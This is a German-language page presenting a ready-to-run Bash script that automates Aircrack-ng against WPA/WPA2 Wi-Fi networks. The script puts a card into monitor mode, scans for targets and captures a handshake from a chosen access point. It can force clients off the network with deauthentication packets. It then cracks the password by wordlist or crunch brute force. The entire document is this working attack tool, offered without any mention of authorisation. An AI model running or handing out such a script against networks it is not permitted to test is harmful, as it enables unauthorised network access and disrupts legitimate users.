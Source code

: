 # Automatisiertes Aircrack-ng Skript

Hier ist ein Bash-Skript, das die Verwendung von Aircrack-ng automatisiert und die wichtigsten Funktionen des Tools abdeckt:

bash

`#!/bin/bash # Automatisiertes Aircrack-ng Skript # Dieses Skript automatisiert den Prozess des WPA/WPA2 Handshake-Captures und Crackings # Farben für bessere Lesbarkeit RED='\033[0;31m' GREEN='\033[0;32m' YELLOW='\033[0;33m' NC='\033[0m' # No Color # Funktionen function check_dependencies() {     echo -e "${YELLOW}Überprüfe Abhängigkeiten...${NC}"    for cmd in airmon-ng airodump-ng aireplay-ng aircrack-ng; do        which $cmd > /dev/null 2>&1        if [ $? -ne 0 ]; then            echo -e "${RED}$cmd ist nicht installiert. Bitte installiere Aircrack-ng Suite.${NC}"            exit 1        fi    done    echo -e "${GREEN}Alle Abhängigkeiten sind vorhanden.${NC}" } function setup_monitor_mode() {     echo -e "${YELLOW}Verfügbare Netzwerkschnittstellen:${NC}"    ip a | grep -E "^[0-9]:" | cut -d: -f2 | tr -d ' '    echo ""    read -p "Welche Schnittstelle möchtest du verwenden? (z.B. wlan0): " interface         echo -e "${YELLOW}Beende mögliche störende Prozesse...${NC}"    sudo airmon-ng check kill         echo -e "${YELLOW}Aktiviere Monitor-Modus für $interface...${NC}"    sudo airmon-ng start $interface         # Bestimme den Namen der Monitor-Schnittstelle    monitor_interface=$(ip a | grep -E "^[0-9]:" | grep "mon" | cut -d: -f2 | tr -d ' ')    if [ -z "$monitor_interface" ]; then        monitor_interface="${interface}mon"    fi         echo -e "${GREEN}Monitor-Modus aktiviert auf $monitor_interface${NC}"    return 0 } function scan_networks() {     echo -e "${YELLOW}Scanne nach WLAN-Netzwerken...${NC}"    echo -e "${YELLOW}Drücke STRG+C, wenn du das Ziel-Netzwerk gefunden hast.${NC}"    sudo airodump-ng $monitor_interface } function capture_handshake() {     echo ""    read -p "Gib die BSSID des Zielnetzwerks ein: " bssid    read -p "Gib den Kanal des Zielnetzwerks ein: " channel    read -p "Gib einen Namen für die Ausgabedatei ein: " output_name         # Erstelle Verzeichnis für Handshakes    mkdir -p ~/handshakes         echo -e "${YELLOW}Starte Capture auf Netzwerk $bssid (Kanal $channel)...${NC}"    echo -e "${YELLOW}Drücke STRG+C, wenn du den Handshake erfasst hast.${NC}"         # Starte airodump-ng in einem Terminal    sudo airodump-ng --bssid $bssid -c $channel -w ~/handshakes/$output_name $monitor_interface &    airodump_pid=$!         # Frage, ob Deauthentifizierungsangriff durchgeführt werden soll    echo ""    read -p "Möchtest du einen Deauthentifizierungsangriff durchführen, um einen Handshake zu erzwingen? (j/n): " deauth    if [[ $deauth == "j" || $deauth == "J" ]]; then        read -p "Wie viele Deauth-Pakete sollen gesendet werden? (z.B. 5): " deauth_count        echo -e "${YELLOW}Sende $deauth_count Deauthentifizierungspakete...${NC}"        sudo aireplay-ng --deauth $deauth_count -a $bssid $monitor_interface    fi         # Warte auf Benutzeraktion    echo -e "${YELLOW}Warte auf Handshake Capture...${NC}"    echo -e "${YELLOW}Drücke Enter, wenn du fertig bist.${NC}"    read         # Beende airodump-ng    kill $airodump_pid 2>/dev/null         handshake_file="~/handshakes/${output_name}-01.cap"    echo -e "${GREEN}Handshake wurde in $handshake_file gespeichert.${NC}"    return 0 } function crack_handshake() {     echo ""    echo -e "${YELLOW}Verfügbare Handshake-Dateien:${NC}"    ls -la ~/handshakes/*.cap 2>/dev/null         read -p "Gib den Pfad zur Handshake-Datei ein: " handshake_file         echo -e "${YELLOW}Wähle eine Cracking-Methode:${NC}"    echo "1) Wörterbuch-Angriff"    echo "2) Brute-Force mit Crunch"    read -p "Deine Wahl (1/2): " crack_method         if [ "$crack_method" == "1" ]; then        read -p "Gib den Pfad zur Wörterbuch-Datei ein (z.B. /usr/share/wordlists/rockyou.txt): " wordlist        echo -e "${YELLOW}Starte Wörterbuch-Angriff...${NC}"        sudo aircrack-ng -w $wordlist $handshake_file    elif [ "$crack_method" == "2" ]; then        read -p "Minimale Passwortlänge: " min_length        read -p "Maximale Passwortlänge: " max_length        read -p "Zeichensatz (z.B. abcdefghijklmnopqrstuvwxyz0123456789): " charset                 echo -e "${YELLOW}Starte Brute-Force-Angriff mit Crunch...${NC}"        sudo crunch $min_length $max_length $charset | aircrack-ng -w - $handshake_file    else        echo -e "${RED}Ungültige Auswahl.${NC}"    fi } function cleanup() {     echo -e "${YELLOW}Bereinige und deaktiviere Monitor-Modus...${NC}"    sudo airmon-ng stop $monitor_interface    sudo systemctl restart NetworkManager    echo -e "${GREEN}Bereinigung abgeschlossen.${NC}" } # Hauptmenü function main_menu() {     clear    echo -e "${GREEN}===== Automatisiertes Aircrack-ng Skript =====${NC}"    echo "1) Monitor-Modus einrichten"    echo "2) Netzwerke scannen"    echo "3) Handshake aufzeichnen"    echo "4) Handshake cracken"    echo "5) Bereinigen und beenden"    echo "q) Beenden"         read -p "Wähle eine Option: " choice         case $choice in        1) setup_monitor_mode && main_menu ;;        2) scan_networks && main_menu ;;        3) capture_handshake && main_menu ;;        4) crack_handshake && main_menu ;;        5) cleanup && main_menu ;;        q|Q) echo -e "${GREEN}Auf Wiedersehen!${NC}" && exit 0 ;;        *) echo -e "${RED}Ungültige Auswahl.${NC}" && sleep 2 && main_menu ;;    esac } # Starte das Skript check_dependencies main_menu`

